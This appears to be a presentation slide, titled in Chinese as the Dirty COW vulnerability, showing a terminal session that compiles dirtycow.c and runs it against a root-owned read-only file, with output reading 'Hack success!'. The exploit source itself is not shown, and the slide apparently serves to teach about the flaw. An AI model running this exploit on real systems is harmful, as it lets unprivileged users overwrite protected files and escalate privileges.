

脏牛漏洞
ubuntu:~$ uname -a
ubuntu:~$ gcc --version
ubuntu:~$ gcc -pthread dirtycow.c -o dirtycow
ubuntu:~$ echo ABCDEFGHIJKLMN > test.txt
ubuntu:~$ chmod 644 testt.txt
ubuntu:~$ sudo chown root:root test.txt
ubuntu:~$ ls -l test.txt
  -rw-r--r-- 1 root root 15 10月 30 13:14 test.txt

ubuntu:~$./dirtycow test.txt 1234567890
mmap 7fa185de3000
Hack success!
procselfmem 52150
madvise 0
ubuntu:~$ ls -l test.txt
-rw-r--r-- 1 root root 15 10月 30 13:14 test.txt